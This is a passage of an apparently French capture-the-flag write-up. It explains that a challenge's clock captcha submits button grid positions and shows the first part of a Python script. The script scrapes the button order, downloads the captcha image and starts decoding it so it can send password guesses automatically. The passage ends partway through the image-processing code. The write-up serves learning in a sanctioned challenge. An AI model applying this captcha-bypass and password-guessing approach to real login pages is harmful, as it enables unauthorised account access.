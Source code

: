 ```html
        document.getElementById('inputTime').value = new_value;

        var captchaInput = document.getElementById('captchaInput');
        if (captchaInput.value.length != 4) {
        document.getElementById('captchaInput').value += pos;
        } else {
        document.getElementById('captchaInput').value = captchaInput.value.substring(1, 4) + pos;
        }
    }
</script>
```

Ainsi, c'est la position du bouton dans la grille du captcha qui est envoyée.

On doit donc télécharger la page, récupérer l'ordre des boutons, résoudre la captcha, convertir l'heure en numéros de boutons et envoyer notre essai de mot de passe.

Ceci est le code complet :

```python
import requests
from base64 import urlsafe_b64encode
from PIL import Image
import numpy as np

class CaptchaException(Exception):
    pass
class LoginException(Exception):
    pass

url = "https://passichronophage.chall.malicecyber.com"

def getPos(webpage):
    convert = [0]*10
    for line in webpage.split('<div data-pos="')[1:]:
        convert[int(line[3])] = int(line[0])
    return convert

session = requests.Session()
r = session.get(url)
convert = getPos(r.text)
cookie = r.headers["Set-Cookie"].split("=")[1].split(";")[0]

def urlencode(s):
    return urlsafe_b64encode(s.encode()).decode()

def captcha_from_hour(hour, convert):
    return "".join([str(convert[int(c)]) for c in hour])

def download_image(cookie):
    r = requests.get(url + f"/captchas/captcha_{cookie}.png")
    with open(f"clock-{cookie}.png", 'wb') as f:
        f.write(r.content)

def cartesian_from_polar(r, theta):
    return (int(r*np.cos(theta)), int(r*np.sin(theta)))

def get_time():
    img = Image.open(f"clock-{cookie}.png")
    pixels = img.load()
    SIZE = img.width

    # Cleaning image
    data = np.zeros((SIZE,SIZE), dtype=np.uint8)
    for x in range(SIZE//5,SIZE-SIZE//5):
```